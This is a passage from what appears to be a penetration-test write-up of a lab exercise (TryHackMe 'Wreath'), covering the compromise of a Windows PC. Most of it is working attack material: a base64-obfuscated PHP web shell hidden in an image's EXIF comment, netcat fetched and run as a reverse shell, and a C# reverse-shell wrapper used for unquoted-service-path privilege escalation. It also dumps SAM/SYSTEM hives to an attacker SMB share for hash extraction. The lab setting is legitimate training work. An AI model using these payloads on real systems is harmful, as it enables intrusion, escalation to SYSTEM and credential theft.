File Name                       : shell-Neozer0.jpeg.php
Directory                       : .
File Size                       : 46 KiB
File Modification Date/Time     : 2021:04:24 08:24:07-04:00
File Access Date/Time           : 2021:04:24 08:24:07-04:00

...

Comment                         : <?php $v0=$_GET[base64_decode('d3JlYXRo')];if(isset($v0)){echo base64_decode('PHByZT4=').shell_exec($v0).base64_decode('PC9wcmU+');}die();?>

...
```

Visiting the page we get

![upload success](phpshell.png)

We can execute command with param `wreath` by visiting: `10.200.85.100/resources/uploads/shell-Neozer0.jpeg.php?wreath=systeminfo`

![run systeminfo](phpshellsysinfo.png)

_____________________________________

### Reverse shell

We upload the `nc.exe` to the `c:\windows\temp\` directory

1. Start http server and 
```
kali@kali:~/code/nc.exe$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.200.85.100 - - [24/Apr/2021 08:50:59] "GET /nc.exe HTTP/1.1" 200 -

```

2. Run curl command on webshell `curl http://10.50.86.79/nc64.exe -o c:\\windows\\temp\\nc-Neozer0.exe`

![curl nc](curlnc.png)

3. Set up netcat listener
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...

```

4. Run command to start reverse shell - `10.200.85.100/resources/uploads/shell-Neozer0.jpeg.php?wreath=powershell.exe%20c:\\windows\\temp\\nc-Neozer0.exe%2010.50.86.79%2049999%20-e%20cmd.exe`

![nc reverse shell](ncreverseshell.png)

5. Back on netcat listener we get a shell
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.100] 50050
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\resources\uploads>

```

_____________________________________

### Privilege enumeration

Check current privileges
```
C:\xampp\htdocs\resources\uploads>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

```
C:\xampp\htdocs\resources\uploads>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288 
```

Check services

```
C:\xampp\htdocs\resources\uploads>wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
DisplayName                                                                         Name                                      PathName                                                                                    StartMode  
Amazon SSM Agent                                                                    AmazonSSMAgent                                                 

...

SystemExplorerHelpService                 C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe  Auto       
Windows Defender Antivirus Network Inspection Service                               WdNisSvc                                  

...  
```

Check the path of the binary of `SystemExplorerHelpService`

```
C:\xampp\htdocs\resources\uploads>sc qc SystemExplorerHelpService
sc qc SystemExplorerHelpService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SystemExplorerHelpService
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : System Explorer Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

We also have access to add files in the path!

```
C:\xampp\htdocs\resources\uploads>powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"


Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files (x86)\System Explorer
Owner  : BUILTIN\Administrators
Group  : WREATH-PC\None
Access : BUILTIN\Users Allow  FullControl
         NT SERVICE\TrustedInstaller Allow  FullControl
         NT SERVICE\TrustedInstaller Allow  268435456
         NT AUTHORITY\SYSTEM Allow  FullControl

...
```

Two findings:

- We have privilege that could be used to escalate to system permissions. However, we need to obfuscate the exploit to get past Defender; or
- We have unquoted service path vulnerability for a service running as the system account - `SystemExplorerHelpService`

_____________________________________

### Privilege escalation

Create exploit

```cs
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
                Process proc = new Process();
                ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-Neozer0.exe", "10.50.86.79 49999 -e cmd.exe");
                procInfo.CreateNoWindow = true;
                proc.StartInfo = procInfo;
                proc.Start();
        }
    }
}
```

Now we compile the program with Mono `mcs` compiler

```
kali@kali:~/thm/wreath$ mcs Wrapper.cs 
kali@kali:~/thm/wreath$ ls Wrapper*
Wrapper.cs  Wrapper.exe
kali@kali:~/thm/wreath$ file Wrapper.exe 
Wrapper.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

We upload executable using Impacket

Start smb server on our IP serving a share called `share` in current directory. This is also using SMBv2 for relatively up to date targets
```
kali@kali:~/thm/wreath$ sudo python3 ~/code/impacket/examples/smbserver.py share . -smb2support -username user -password hellotheretaco
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0

...
```

In the reverse shell we run
- `net use \\10.50.86.79\share /USER:user hellotheretaco`

```
C:\xampp\htdocs\resources\uploads>net use \\10.50.86.79\share /USER:user hellotheretaco
net use \\10.50.86.79\share /USER:user hellotheretaco
The command completed successfully.


C:\xampp\htdocs\resources\uploads>copy \\10.50.86.79\share\Wrapper.exe %TEMP%\wrapper-Neozer0.exe
copy \\10.50.86.79\share\Wrapper.exe %TEMP%\wrapper-Neozer0.exe
        1 file(s) copied.
```

We now start another listener and execute to see if exploit works
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...
```

```
C:\xampp\htdocs\resources\uploads>"%TEMP%\wrapper-Neozer0.exe"
"%TEMP%\wrapper-Neozer0.exe"
```

We get a reverse shell
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.100] 50512
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\resources\uploads>
```

Copy over file to `Program.exe`

`copy %TEMP%\wrapper-Neozer0.exe "C:\Program Files (x86)\System Explorer\System.exe"`

```
C:\xampp\htdocs\resources\uploads>copy %TEMP%\wrapper-Neozer0.exe "C:\Program Files (x86)\System Explorer\System.exe"
copy %TEMP%\wrapper-Neozer0.exe "C:\Program Files (x86)\System Explorer\System.exe"
        1 file(s) copied.

C:\xampp\htdocs\resources\uploads>dir "C:\Program Files (x86)\System Explorer\"
dir "C:\Program Files (x86)\System Explorer\"
 Volume in drive C has no label.
 Volume Serial Number is A041-2802

 Directory of C:\Program Files (x86)\System Explorer

25/04/2021  08:58    <DIR>          .
25/04/2021  08:58    <DIR>          ..
22/12/2020  00:55    <DIR>          System Explorer
25/04/2021  08:00             3,584 System.exe
               1 File(s)          3,584 bytes
               3 Dir(s)   6,967,848,960 bytes free
```

Restart service

Stop - `sc stop SystemExplorerHelpService`

Start - `sc start SystemExplorerHelpService`

```
C:\xampp\htdocs\resources\uploads>sc stop SystemExplorerHelpService
sc stop SystemExplorerHelpService

SERVICE_NAME: SystemExplorerHelpService 
        TYPE               : 20  WIN32_SHARE_PROCESS  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x1388

C:\xampp\htdocs\resources\uploads>sc start SystemExplorerHelpService
sc start SystemExplorerHelpService
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

And we check on our listener with `root`
``` 
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.100] 50544
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

_____________________________________

### Exfiltration & Post Exploitation

Exfiltrate hashes

```

C:\Windows\system32>net use \\10.50.86.79\share /USER:user hellotheretaco
net use \\10.50.86.79\share /USER:user hellotheretaco
The command completed successfully.


C:\Windows\system32>reg.exe save HKLM\SAM \\10.50.86.79\share\sam.bak
reg.exe save HKLM\SAM \\10.50.86.79\share\sam.bak
The operation completed successfully.

C:\Windows\system32>reg.exe save HKLM\SYSTEM \\10.50.86.79\share\system.bak 
reg.exe save HKLM\SYSTEM \\10.50.86.79\share\system.bak
The operation completed successfully.

```

Use `Impacket`
```
kali@kali:~/thm/wreath$ ls sam* system*
sam.bak  system.bak

kali@kali:~/thm/wreath$ python3 ~/code/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xfce6f31c003e4157e8cb1bc59f4720e6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:********************************:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:********************************:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:********************************:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:********************************:::
Thomas:1000:aad3b435b51404eeaad3b435b51404ee:********************************:::
[*] Cleaning up... 
```

_____________________________________

### Clean up

- delete c:\windows\temp\chisel-Neozer0.exe
- delete c:\windows\temp\nc-Neozer0.exe
- delete resources/uploads/shell-Neozer0.jpeg.php
- stop sharing service `net use \\ATTACKER_IP\share /del` on the attacking machine
- Remove our crafted program - `del "C:\Program Files (x86)\System Explorer\System.exe"`
- Restart the service - `sc start SystemExplorerHelpService`

</details>

### Remediation

- Fix file extension filter bypass that allows `.jpeg.php` files to be uploaded
- Keep using allowlist which are better than blocklist

_____________________________________

## Conclusion

A combination of vulnerabilities allowed us to pivot through multiple entities and obtaining the highest access. The main vulnerabilities of note are:

- Webserver (`.200`) vulnerability
- Gitserver (`.150`) vulnerability 
- Personal PC (`.100`) upload filters vulnerability

It is recommended to:
- Upgrade Webmin and Gitstack to the latest version as detailed in the remediation part of the report
- Improve extensions type filter bypass within Thomas' webpage

_____________________________________

## References

CVE-2019-15107: https://www.cvedetails.com/cve/CVE-2019-15107/

Webserver exploit: https://github.com/MuirlandOracle/CVE-2019-15107

Gitstack: https://www.exploit-db.com/exploits/43777

PHP obfuscator: https://www.gaijin.at/en/tools/php-obfuscator
